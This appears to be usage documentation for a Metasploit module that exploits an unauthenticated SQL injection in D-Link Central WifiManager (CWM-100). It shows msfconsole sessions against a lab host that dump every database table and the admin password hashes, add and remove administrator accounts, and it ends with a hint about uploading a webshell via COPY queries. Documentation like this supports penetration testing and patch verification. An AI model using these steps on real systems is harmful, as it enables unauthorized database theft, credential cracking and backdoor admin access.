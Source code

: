 ## Vulnerable Application

This module exploits a vulnerability in Dlink Central
WifiManager (CWM-100), found in versions lower than
v1.03R0100_BETA6, allowing unauthenticated users to
execute arbitrary SQL queries.

This module has 3 actions:

| Action        | Description                |
| ------------- | -------------------------- |
| SQLI_DUMP     | Data retrieval*            |
| ADD_ADMIN     | Creation of an admin user  |
| REMOVE_ADMIN  | Removal of an admin user   |

\* : each table is saved in the loot directory in CSV format, credentials (password hashes) are saved as
creds for future cracking.

Has been tested with 1.03r098.

## Verification Steps

1. Download the vulnerable software, and install it
- Run the vulnerable software, downloadable from
  [here](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10117).
- direct download link:
  `ftp://ftp2.dlink.com/SOFTWARE/CENTRAL_WIFI_MANAGER/CENTRAL_WI-FI_MANAGER_1.03.zip
2. Reproduction steps
- Run `msfconsole`
- set rhosts ...
- set action ...
- `check` or `exploit`
- should work as in the scenarios below

## Actions

```
msf auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > show actions

Auxiliary actions:

   Name         Description
   ----         -----------
   ADD_ADMIN    Add an administrator user
   REMOVE_ADMIN Remove a user
   SQLI_DUMP    Retrieve all the data from the database

```

## Options

```
msf auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > show options

Module options (auxiliary/sqli/dlink/dlink_central_wifimanager_sqli):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   Admin_Password  anything         no        The password of the user to add/edit
   Admin_Username  red0xff          no        The username of the user to add/remove
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          192.168.1.223    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT           443              yes       The target port (TCP)
   SSL             true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI       /                yes       The base path to DLink CWM-100
   VHOST                            no        HTTP server virtual host

```

## Scenarios

This module has both `check` and `run` functions.

### Retrieving all the data from the database

```
msf > use auxiliary/sqli/dlink/dlink_central_wifimanager_sqli 
msf auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set action SQLI_DUMP 
action => SQLI_DUMP
msf auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set rhosts 192.168.1.223
rhosts => 192.168.1.223
msf auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > check 

[+] 192.168.1.223:443 - The target is vulnerable.
msf auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > run
[*] Running module against 192.168.1.223

[+] Target seems vulnerable
[+] DBMS version: PostgreSQL 9.1.0, compiled by Visual C++ build 1500, 32-bit
[*] Enumerating tables
[+] grouptossltable saved to /home/redouane/.msf4/loot/20200828180148_default_192.168.1.223_dlink.http_187571.csv
[+] paypalsettingtable saved to /home/redouane/.msf4/loot/20200828180149_default_192.168.1.223_dlink.http_642251.csv
[+] ordertable saved to /home/redouane/.msf4/loot/20200828180149_default_192.168.1.223_dlink.http_944954.csv

...

[+] tempstationtable saved to /home/redouane/.msf4/loot/20200828180505_default_192.168.1.223_dlink.http_577215.csv
[+] Saved credentials for admin
[+] Saved credentials for red0xff
[+] usertable saved to /home/redouane/.msf4/loot/20200828180153_default_192.168.1.223_dlink.http_608945.csv

...

[+] devicesnmpsecuritytable saved to /home/redouane/.msf4/loot/20200828180154_default_192.168.1.223_dlink.http_825556.csv
[*] Auxiliary module execution completed
msf auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > 
msf auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > creds
Credentials
===========

host  origin         service  public   private                           realm  private_type        JtR Format
----  ------         -------  ------   -------                           -----  ------------        ----------
      192.168.1.223           admin    21232f297a57a5a743894a0e4a801fc3         Nonreplayable hash  raw-md5
      192.168.1.223           red0xff  f0e166dc34d14d6c228ffac576c9a43c         Nonreplayable hash  raw-md5

msf auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > 
msf auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > loot

Loot
====

host           service  type        name                         content          info  path
----           -------  ----        ----                         -------          ----  ----
192.168.1.223           dlink.http  biggrouptable.csv            application/csv        /home/redouane/.msf4/loot/20200828180503_default_192.168.1.223_dlink.http_360290.csv
192.168.1.223           dlink.http  devicetable.csv              application/csv        /home/redouane/.msf4/loot/20200828180503_default_192.168.1.223_dlink.http_230830.csv

...

ult_192.168.1.223_dlink.http_878195.csv
192.168.1.223           dlink.http  devicesnmpsecuritytable.csv  application/csv        /home/redouane/.msf4/loot/20200828180506_default_192.168.1.223_dlink.http_086271.csv

msf auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > 
```

### Adding an admin user/changing the password of a user

```
msf auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set action ADD_ADMIN 
action => ADD_ADMIN
msf auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set Admin_Username msfadmin
Admin_Username => msfadmin
msf auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set Admin_Password msfadmin
Admin_Password => msfadmin
msf auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > run
[*] Running module against 192.168.1.223

[+] Target seems vulnerable
[*] User not found on the target, inserting
[*] Auxiliary module execution completed
msf auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set Admin_Password msfpassword
Admin_Password => msfpassword
msf auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > run
[*] Running module against 192.168.1.223

[*] Trying to detect installed version
[+] Target seems vulnerable
[*] User already exists, updating the password
[*] Auxiliary module execution completed
msf auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > 
```

### Deleting an administrator user

```
msf auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set action REMOVE_ADMIN 
action => REMOVE_USER
msf auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set Admin_Username red0xff
Admin_Username => red0xff
msf auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > run
[*] Running module against 192.168.1.223

[+] Target seems vulnerable
[*] Auxiliary module execution completed
```

### Going further

It is possible to upload arbitrary files to the target system using queries of the form
(copy ... to ...), but using full paths, the attacker must know the path of the webroot
to upload a webshell this way.

